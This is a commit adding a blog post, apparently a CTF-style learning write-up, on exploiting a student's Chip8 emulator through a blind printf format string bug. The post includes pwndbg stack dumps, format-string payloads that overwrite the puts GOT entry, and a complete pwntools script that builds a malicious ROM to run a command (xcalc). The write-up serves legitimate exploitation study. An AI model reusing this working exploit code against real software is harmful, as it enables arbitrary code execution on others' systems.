

Before and after one commit to lucabtz/lucabtz.github.io, a Jekyll site: the page built from _posts/2024-10-24-attempt-at-pwning-a-chip8-emulator.md, in a window 1280 px wide and 1400 px high, scrolled down 17752 px. Shown: the whole window at 91% size, without its empty margins (118-1161 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 19127 px from its top, so only the background shows below that; some of the changed lines change nothing that is shown.

Commit message:
New post

````diff
--- a/_posts/2024-10-24-attempt-at-pwning-a-chip8-emulator.md
+++ b/_posts/2024-10-24-attempt-at-pwning-a-chip8-emulator.md
@@ -712,7 +712,7 @@
     asm.seek_pc(0x222)
     # at this point the machine is 'booted': profit
 
-    asm.write_bytes(b"hello from the chip8!\n\0")
+    asm.write_bytes(0x0, b"hello from the chip8!\n\0")
     asm.native_call_primitive(PRINTF_PLT)
 
     # more booting code
--- /dev/null
+++ b/_posts/2024-11-3-pwning-the-chip8-emulator-with-blind-format-strings.md
@@ -0,0 +1,511 @@
+---
+title: Pwning the Chip8 Emulator with Blind Format Strings
+description: I exploit multiple vulnerabilities in a student's Chip8 emulator project as if it was a CTF, and obtain RCE
+tags: binary-exploitation format-string
+---
+
+This is a continuation of my previous post, if you have not read it you can find it [here](https://lucabtz.com/blog/attempt-at-pwning-a-chip8-emulator).
+
+As I was browsing through X I came across this [post](https://www.synacktiv.com/publications/exploiting-a-blind-format-string-vulnerability-in-modern-binaries-a-case-study-from).
+When trying to exploit the emulator before I realized I could call `printf` with an arbitrary format string, I also checked
+quickly resources online, but mainly they exploit format string bugs which are not blind (you can see and read the output
+of the `printf`). Here the situation is different as the output would be on the terminal of the remote computer which we can't
+read. However, as I saw the above post I realized blind format string exploits are a thing and I decided to investigate whether
+they would work here.
+
+For context I reccomend you read the post I linked as well as keep the [man page for printf](https://www.man7.org/linux/man-pages/man3/printf.3.html)
+open while you read and refer to it often.
+
+## Blind `printf` exploit
+
+The general idea is using `printf` to first leak a `libc` address into the Chip8 memory. Then we process this using the Chip8's
+assembly to compute the address of `system`. Finally we use `printf` again to overwrite the GOT entry of `puts` and we have
+arbitrary code execution.
+
+First step is placing a pointer to some Chip8 memory onto the stack. We will need this because with the format `%n`
+(which is the only writing primitive in format strings) we can write only to pointers which are on the stack.
+
+I decided to use address `0x405220` which corresponds to the VM address `0x100`. This is what the stack looks like at a `printf` call
+```
+pwndbg> stack 15
+00:0000│ rsp 0x7ffdd9892408 —▸ 0x7fa214d6be59 (Mix_FadeInMusicPos+265) ◂— mov ebp, eax
+01:0008│     0x7ffdd9892410 —▸ 0x7ffdd9892568 —▸ 0x7ffdd989419f ◂— '/home/luca/Documents/CHIP8-Emulator-C/src/Chip8'
+02:0010│     0x7ffdd9892418 —▸ 0x7ffdd9892450 ◂— 2
+03:0018│     0x7ffdd9892420 —▸ 0x7fa214fcd000 (_rtld_global) —▸ 0x7fa214fce2e0 ◂— 0
+04:0020│     0x7ffdd9892428 —▸ 0x4013fd (main+295) ◂— movzx eax, byte ptr [rip + 0x5556]
+05:0028│     0x7ffdd9892430 —▸ 0x7ffdd9892568 —▸ 0x7ffdd989419f ◂— '/home/luca/Documents/CHIP8-Emulator-C/src/Chip8'
+06:0030│     0x7ffdd9892438 ◂— 0x254442d18
+07:0038│     0x7ffdd9892440 ◂— 0x3fe0000000000000
+08:0040│     0x7ffdd9892448 ◂— 0xb00000000
+09:0048│     0x7ffdd9892450 ◂— 2
+0a:0050│     0x7ffdd9892458 —▸ 0x7fa214b91dba (__libc_start_call_main+122) ◂— mov edi, eax
+0b:0058│     0x7ffdd9892460 ◂— 0x3ada368abac064c3
+0c:0060│     0x7ffdd9892468 —▸ 0x4012d6 (main) ◂— push rbp
+0d:0068│     0x7ffdd9892470 ◂— 0x2bac064c3
+0e:0070│     0x7ffdd9892478 —▸ 0x7ffdd9892568 —▸ 0x7ffdd989419f ◂— '/home/luca/Documents/CHIP8-Emulator-C/src/Chip8'
+```
+I decided to write the address `0x405220` at the stack address `0x7ffdd9892568`, which is as you can see, where the program name
+is stored on the stack. To do so I used to following code
+```py
+    asm.write_bytes(0x0, b"%" + str(PRINTF_LEAK_ADDR).encode("ascii") + b"c%6$ln\x00")
+    asm.native_call_primitive(PRINTF_PLT)
+```
+Here `PRINTF_LEAK_ADDR` is `0x405220`. In particular the format stores the value `0x405220` into the character counter and then
+dumps it using the `%ln` format with the appropriate argument index.
+
+Now that we have the address we want to write too we can leak there some `libc` address. In particular we have the address of
+`__libc_start_call_main+122`, `0x7fa214b91dba`, on the stack. To leak this we need to use first the format `%*15$c` which
+reads the argument with index 15 into the character counter. In particular the `*15$` part says that the 15th argument, which
+is supposed to be an `int`, stores the value that need to be used as the field (refer to the man pages for details).
+This is precisely the argument index of the `__libc_start_call_main+122` address.
+Unfortunately, we do not control the type here, the value is interpreted as `int`, so we can only read the lower 32 bits. However
+this will prove sufficient, because we will just overwrite the lower 32 bits of the GOT entry of `puts`.
+Further it is a signed `int` which will lead to some weirdness when the MSB of the lower 32 bits is set
+(whether this is set or not depends on ASLR, so it is random).
+
+Now that we read the value we dump it into the chip8's memory at `0x405220` using the format `%49$ln`. So the final code looks
+like
+```py
+    asm.write_bytes(0x0, b"%*15$c%49$ln\x00")
+    asm.native_call_primitive(PRINTF_PLT)
+```
+
+Now let me go back to the problem with signed `int`s. For example let me take the case where `__libc_start_call_main+122` is
+`0x7ffff7bc1dba`. The lower 32 bits are `0xf7bc1dba` and thus have the sign bit set. In this case what gets written at the
+leak location is the value `0x0843e246`. However after some thinking about this and how the `printf` code may work (I did not
+actually read the code) I realized that we always have `actual_lower_32_bits + leak_value = 0x100000000` (i.e. the leaked value
+is the two's complement of the real value) so that we can always recover the actual value from the leaked one anyhow. If the
+sign bit is not set then the leaked value is just the real value of the lower 32 bits.
+
+So we process the leak as follows:
+- look at the page offset of the leaked value (this is independent of ASLR): if it is `0xdba` the leak is the actual value
+  and we need to do nothing,
+- otherwise compute the actual value by getting the two's complement.
+
+After implementing this in the chip8's instructions, we add the offset to `system` to the leak with more instructions.
+Then we can leverage `printf` again to overwrite the lower 32-bits of some GOT entry (let me chose `puts` which is at
+address `0x405038`). To keep the previous setup in place I write this to a different stack location with format strings.
+```
+pwndbg> stack 15
+00:0000│ rsp 0x7ffc39a50a00 —▸ 0x7ffc39a50b58 —▸ 0x405220 (chip+256) ◂— 0xffffffffb0e8f050
+01:0008│-038 0x7ffc39a50a08 —▸ 0x7ffc39a50a40 —▸ 0x405038 (puts@got[plt]) —▸ 0x7ff7b0eb8e60 (puts) ◂— push r14
+02:0010│-030 0x7ffc39a50a10 —▸ 0x7ff7b12a4000 (_rtld_global) —▸ 0x7ff7b12a52e0 ◂— 0
+03:0018│-028 0x7ffc39a50a18 —▸ 0x4013fd (main+295) ◂— movzx eax, byte ptr [rip + 0x5556]
+04:0020│-020 0x7ffc39a50a20 —▸ 0x7ffc39a50b58 —▸ 0x405220 (chip+256) ◂— 0xffffffffb0e8f050
+05:0028│-018 0x7ffc39a50a28 ◂— 0x254442d18
+06:0030│-010 0x7ffc39a50a30 ◂— 0x3fe0000000000000
+07:0038│-008 0x7ffc39a50a38 ◂— 0xb00000000
+08:0040│ rbp 0x7ffc39a50a40 —▸ 0x405038 (puts@got[plt]) —▸ 0x7ff7b0eb8e60 (puts) ◂— push r14
+09:0048│+008 0x7ffc39a50a48 —▸ 0x7ff7b0e68dba (__libc_start_call_main+122) ◂— mov edi, eax
+0a:0050│+010 0x7ffc39a50a50 ◂— 0x3ada368abac064c3
+0b:0058│+018 0x7ffc39a50a58 —▸ 0x4012d6 (main) ◂— push rbp
+0c:0060│+020 0x7ffc39a50a60 ◂— 0x2bac064c3
+0d:0068│+028 0x7ffc39a50a68 —▸ 0x7ffc39a50b58 —▸ 0x405220 (chip+256) ◂— 0xffffffffb0e8f050
+0e:0070│+030 0x7ffc39a50a70 —▸ 0x7ffc39a50b58 —▸ 0x405220 (chip+256) ◂— 0xffffffffb0e8f050
+```
+As you can see we both have the leak address and the `puts` GOT address somewhere on the stack now.
+
+Now comes the annoying part: we need to generate the format string that will overwrite the GOT entry ourself in the chip8
+program. Ideally one would use the format `%<value to write in decimal ascii>c` to load the value in the character counter.
+However converting to decimal is not so easy as there is no division operation on the chip8.
+
+What I ended up doing is checking the values bit by bit and adding the format strings `%1$<some power of 2>c`: for example the
+binary number `1011` would convert to `%1$1c%1$2c%1$8c`. I also spitted the write in two steps as this seemed to work better
+and it also produce smaller format strings, so each time I write only 16 bits using the format `%14$hn` (`14` references the
+pointer to `puts@got[plt]` we previously written on the stack). Splitting the write in two also means we need to update this
+before the second write.
+
+After this is done the exploit is completed using again the arbitrary call primitive to call `puts@plt` with any command we
+want to run as first argument.
+
+## Conclusion
+The exploit works fully reliably, however, unless the output of the program is piped into `/dev/null` it is extremely slow as
+a lot of characters need to actually be printed. This was just a learning project anyhow and I learned a lot about format string
+exploits along the way, I hope at the end of this journey you have learned something to, dear reader.
+Anyhow here is the exploit code which will generate a malicious ROM that spawns a calculator
+```py
+import pwn
+
+# pwndbg> ptype /o struct Chip8
+#/* offset      |    size */  type = struct Chip8 {
+#/*      0      |    4096 */    uint8_t memory[4096];
+#/*   4096      |    2048 */    uint8_t display[2048];
+#/*   6144      |       2 */    uint16_t pc;
+#/*   6146      |       2 */    uint16_t index;
+#/*   6148      |      32 */    uint16_t stack[16];
+#/*   6180      |       1 */    uint8_t stack_pointer;
+#/*   6181      |       1 */    uint8_t delay;
+#/*   6182      |       1 */    uint8_t sound;
+#/*   6183      |      16 */    uint8_t registers[16];
+#/* XXX  1-byte hole      */
+#/*   6200      |       2 */    uint16_t op_code;
+#/*   6202      |       1 */    uint8_t draw_flag;
+#/*   6203      |       1 */    uint8_t draw_wait;
+#/*   6204      |      16 */    uint8_t input[16];
+#
+#                               /* total size (bytes): 6220 */
+#                             }
+
+
+ROM_START_OFFSET   = 0x200
+PRINTF_LEAK_OFFSET = 0x100
+
+# chip struct offsets from rom start
+PC_OFFSET          = 6144 - 0x200
+SP_OFFSET          = 6180 - 0x200
+CHIP_STRUCT_SIZE   = 6220
+
+MUSIC_ADDR         = 0x406990
+CHIP_ADDR          = 0x405120
+BUFFER_START_ADDR  = CHIP_ADDR + ROM_START_OFFSET
+MEMORY_END_ADDR    = CHIP_ADDR + 0x1000
+STACK_ADDR         = CHIP_ADDR + 6148
+PRINTF_LEAK_ADDR   = CHIP_ADDR + PRINTF_LEAK_OFFSET
+PUTS_GOT_ADDR      = 0x405038
+
+# offset of music from chip.stack
+MUSIC_OFFSET       = MUSIC_ADDR - STACK_ADDR
+SP_VALUE           = int(MUSIC_OFFSET / 2)
+
+PRINTF_PLT         = 0x401080
+PUTS_PLT           = 0x4010a0
+
+LEAK_SYSTEM_OFFSET = 0x26296
+
+    #struct Mix_Music {
+    #    Mix_MusicInterface *interface;
+    #    void *context;
+    #
+    #    bool playing;
+    #    Mix_Fading fading;
+    #    int fade_step;
+    #    int fade_steps;
+    #
+    #    char filename[1024];
+    #};
+
+    #sizeof(struct Mix_Music) = 1056
+    #sizeof(struct Mix_Music) - filename = 32
+    #sizeof(Mix_MusicInterface) = 224
+    #offsetof(Mix_MusicInterface, SetVolume) = 56
+    #offsetof(Mix_MusicInterface, Play) = 72
+    #offsetof(Mix_MusicInterface, Seek) = 104
+    #offsetof(Mix_MusicInterface, Stop) = 192
+
+FAKE_MUSIC_ADDR    = 0x406a5e
+INTERFACE_ADDR     = MEMORY_END_ADDR - 224
+PLAY_ADDR          = INTERFACE_ADDR + 72
+PLAY_CHIP_ADDR     = PLAY_ADDR - CHIP_ADDR
+
+
+def pad(b, n, padding=b"A"):
+    return (b + n * padding)[:n]
+
+def read_file(filename: str):
+    with open(filename, "rb") as f:
+        return f.read()
+
+class Asm:
+    def __init__(self):
+        self.pc = 0x200
+        self.code = bytearray()
+        self.patches = []
+        self.labels = {}
+
+    def _validate_addr(self, addr: int):
+        if not addr & 0xfff == addr:
+            print(addr)
+            assert False
+
+    def _validate_x(self, x: int):
+        assert x & 0xf == x
+
+    def _validate_nn(self, nn: int):
+        assert nn & 0xff == nn
+
+    def _increment_pc(self):
+        self.pc += 2
+
+    def _pack_opcode(self, opcode):
+        return pwn.pack(opcode, word_size=16, endianness="big")
+
+    def jump(self, addr: int):
+        self._validate_addr(addr)
+        self._increment_pc()
+        self.code += self._pack_opcode(0x1000 | addr)
+
+    def call(self, addr: int):
+        self._validate_addr(addr)
+        self._increment_pc()
+        self.code += self._pack_opcode(0x2000 | addr)
+
+    def set_index(self, addr: int):
+        self._validate_addr(addr)
+        self._increment_pc()
+        self.code += self._pack_opcode(0xa000 | addr)
+
+    def store_vx(self, x: int):
+        self._validate_x(x)
+        self._increment_pc()
+        self.code += self._pack_opcode(0xf055 | (x << 8))
+
+    def load_vx(self, x: int):
+        self._validate_x(x)
+        self._increment_pc()
+        self.code += self._pack_opcode(0xf065 | (x << 8))
+
+    def load_vx_imm(self, x: int, imm: int):
+        self._validate_x(x)
+        self._validate_nn(imm)
+        self._increment_pc()
+        self.code += self._pack_opcode(0x6000 | (x << 8) | imm)
+
+    def clear_screen(self):
+        self._increment_pc()
+        self.code += self._pack_opcode(0x00e0)
+
+    def set_sound(self, x: int):
+        self._validate_x(x)
+        self._increment_pc()
+        self.code += self._pack_opcode(0xf018 | (x << 8))
+
+    def bitwise_and(self, x: int, y: int):
+        self._validate_x(x)
+        self._validate_x(y)
+        self._increment_pc()
+        self.code += self._pack_opcode(0x8002 | (x << 8) | (y << 4))
+
+    def bitwise_xor(self, x: int, y: int):
+        self._validate_x(x)
+        self._validate_x(y)
+        self._increment_pc()
+        self.code += self._pack_opcode(0x8003 | (x << 8) | (y << 4))
+
+    def bitwise_shr(self, x: int, y: int):
+        self._validate_x(x)
+        self._validate_x(y)
+        self._increment_pc()
+        self.code += self._pack_opcode(0x8006 | (x << 8) | (y << 4))
+
+    def add(self, x: int, y: int):
+        self._validate_x(x)
+        self._validate_x(y)
+        self._increment_pc()
+        self.code += self._pack_opcode(0x8004 | (x << 8) | (y << 4))
+
+    def mov(self, x: int, y: int):
+        self._validate_x(x)
+        self._validate_x(y)
+        self._increment_pc()
+        self.code += self._pack_opcode(0x8000 | (x << 8) | (y << 4))
+
+    def skip_eq(self, x: int, nn: int):
+        self._validate_x(x)
+        self._validate_nn(nn)
+        self._increment_pc()
+        self.code += self._pack_opcode(0x3000 | (x << 8) | nn)
+
+    def skip_neq(self, x: int, nn: int):
+        self._validate_x(x)
+        self._validate_nn(nn)
+        self._increment_pc()
+        self.code += self._pack_opcode(0x4000 | (x << 8) | nn)
+
+    def seek_pc(self, seeked_pc):
+        self._validate_addr(seeked_pc)
+        assert seeked_pc > self.pc
+        assert seeked_pc % 2 == 0
+        for _ in range(int((seeked_pc-self.pc)/2)):
+            self.nop()
+        self.pc = seeked_pc
+
+    def label(self, name: str):
+        assert name not in self.labels.keys()
+        self.labels[name] = self.pc
+
+    def jump_label(self, label: str):
+        self.patches.append({
+            "offset": len(self.code),
+            "label": label
+        })
+        return self.jump(0x000)
+
+    # higher level primitives
+    def nop(self):
+        self.jump(self.pc+2)
+
+    def load_dword_le(self, addr: int):
+        self.set_index(addr)
+        self.load_vx(3)
+
+    def store_dword_le(self, addr: int):
+        self.set_index(addr)
+        self.store_vx(3)
+
+    # computes twos complement of V0-V7 and stores back there
+    def two_complement(self):
+        # to compute the NOT we XOR with 0xff
+        self.load_vx_imm(8, 0xff)
+        for i in range(4):
+            self.bitwise_xor(i, 8)
+
+        # then add 1
+        self.load_vx_imm(0xf, 1)
+        for i in range(4):
+            self.add(i, 0xf)
+
+    # adds the immediate qword to V0-V3
+    def add_dwords_le_imm(self, imm: int):
+        for b in range(4):
+            self.load_vx_imm(8, (imm >> (b * 8)) & 0xff)
+            self.add(b, 8)
+            # compute carriage
+            for i in range(b + 1, 4):
+                self.add(i, 0xf)
+
+    def write_qword_le(self, addr: int, qword: int):
+        self.set_index(addr)
+        for i in range(8):
+            self.load_vx_imm(i, (qword >> (8 * i)) & 0xFF)
+        self.store_vx(7)
+
+    def write_bytes(self, addr: int, b: bytes):
+        self.set_index(addr)
+        for byte in b:
+            self.load_vx_imm(0, byte)
+            self.store_vx(0)
+
+    def write_bytes_continue(self, b: bytes):
+        for byte in b:
+            self.load_vx_imm(0, byte)
+            self.store_vx(0)
+
+    def native_call_primitive(self, address: int):
+        self.write_qword_le(PLAY_CHIP_ADDR, address)
+        self.load_vx_imm(0, 1)
+        self.set_sound(0)
+        for _ in range(11):
+            self.nop()
+
+    def assemble(self):
+        for patch in self.patches:
+            assert patch["label"] in self.labels.keys()
+            addr = self.labels[patch["label"]]
+            self.code[patch["offset"]  ] |= addr >> 8
+            self.code[patch["offset"]+1] |= addr & 0xff
+        return self.code
+
+def exploit():
+    pwn.info(f"Placing fake music interface object at address {hex(INTERFACE_ADDR)} (chip8 addr {hex(INTERFACE_ADDR - CHIP_ADDR)})")
+    pwn.info(f"Execution starts at pc = {hex(((FAKE_MUSIC_ADDR & 0xffff) - 2) & 0xfff)}")
+    pwn.info(f"Leak buffer at vm address {hex(PRINTF_LEAK_OFFSET)}, address {hex(PRINTF_LEAK_ADDR)}")
+
+    asm = Asm()
+
+    asm.load_vx_imm(0, 0x22)
+    asm.load_vx_imm(1, 0x22)
+    asm.set_index(0x40-2)
+    asm.store_vx(1)
+    asm.jump(0x40-2)
+
+    asm.seek_pc(0x222)
+    # at this point the machine is 'booted': profit
+
+    # initialize puts got
+    asm.write_bytes(0x0, b"pwning...\n\x00")
+    asm.native_call_primitive(PUTS_PLT)
+
+    # write on a specific location on the stack an address pointing to the chip8 memory
+    # in particular let me use address PRINTF_LEAK_OFFSET which corresponds to PRINTF_LEAK_ADDR
+
+    asm.write_bytes(0x0, b"%" + str(PRINTF_LEAK_ADDR).encode("ascii") + b"c%6$ln\x00")
+    asm.native_call_primitive(PRINTF_PLT)
+
+    asm.write_bytes(0x0, b"%*15$c%49$ln\x00")
+    asm.native_call_primitive(PRINTF_PLT)
+
+    asm.load_dword_le(PRINTF_LEAK_OFFSET)
+
+    asm.mov(8, 1)
+    asm.load_vx_imm(9, 0xf)
+    asm.bitwise_and(8, 9)
+    asm.skip_neq(8, 0xd)
+    asm.skip_eq(0, 0xba)
+    # should do two's complement
+    asm.jump_label("do_two_complement")
+    # should not do two's complement
+    asm.jump_label("done")
+
+    asm.label("do_two_complement")
+    asm.two_complement()
+
+    asm.label("done")
+    asm.add_dwords_le_imm(LEAK_SYSTEM_OFFSET)
+    # for debug
+    asm.store_dword_le(PRINTF_LEAK_OFFSET)
+
+    # move them to not interfere with the write_bytes_continue
+    asm.mov(0x9, 0)
+    asm.mov(0xa, 1)
+    asm.mov(0xb, 2)
+    asm.mov(0xc, 3)
+    for s in range(2):
+        asm.write_bytes(0x0, b"%" + str(PUTS_GOT_ADDR + s * 2).encode("ascii") + b"c%7$ln\x00")
+        asm.native_call_primitive(PRINTF_PLT)
+
+        asm.set_index(0x0)
+        for byt in range(2):
+            for bit in range(8):
+                exponent = bit + 8 * byt
+                power = pow(2, exponent)
+
+                asm.bitwise_shr(9 + s * 2 + byt, 9 + s * 2 + byt)
+                asm.skip_eq(0xf, 1)
+                asm.jump_label(f"continue_s{s}_byte{byt}_bit{bit}")
+
+                format_string = b"%1$" + str(power).encode("ascii") + b"c"
+                asm.write_bytes_continue(format_string)
+
+                asm.label(f"continue_s{s}_byte{byt}_bit{bit}")
+
+        asm.write_bytes_continue(b"%14$hn\x00")
+        asm.native_call_primitive(PRINTF_PLT)
+
+    asm.write_bytes(0x0, b"xcalc\x00")
+    asm.native_call_primitive(PUTS_PLT)
+
+    # more booting code
+    asm.seek_pc(((FAKE_MUSIC_ADDR & 0xffff) - 2) & 0xfff)
+    asm.call(0x200)
+
+    code = asm.assemble()
+
+    forged_chip_struct = pad(code, PC_OFFSET, padding=b"\x00")
+    forged_chip_struct += pwn.p16((FAKE_MUSIC_ADDR & 0xffff) - 2) # forged pc
+    forged_chip_struct += b"\x00" * (SP_OFFSET - PC_OFFSET - 2)
+    forged_chip_struct += pwn.p8(SP_VALUE) # forged sp
+    forged_chip_struct = pad(forged_chip_struct, CHIP_STRUCT_SIZE - ROM_START_OFFSET, padding=b"\x00")
+
+
+    # interface
+    forged_music_struct = pwn.p64(INTERFACE_ADDR) # put the interface into chip8's memory
+    # context
+    forged_music_struct += pwn.p64(CHIP_ADDR) # point context into the start of chip8's memory
+    # just pad the rest of the values with zeros
+    forged_music_struct = pad(forged_music_struct, 1056, padding=b"\x00")
+
+    forged_music_interface_struct = b"\x00" * 72
+    forged_music_interface_struct += pwn.p64(0x0000000000401016)
+    forged_music_interface_struct = pad(forged_music_interface_struct, 224, padding=b"\x00")
+
+    rom = forged_chip_struct
+    rom += b"\x00" * (FAKE_MUSIC_ADDR - (CHIP_ADDR + ROM_START_OFFSET + len(forged_chip_struct)))
+    rom += forged_music_struct
+
+    with open("exploit", "wb") as f:
+        f.write(rom)
+
+
+if __name__ == "__main__":
+    exploit()
+```
````
Also changed, not shown: 5 other files.
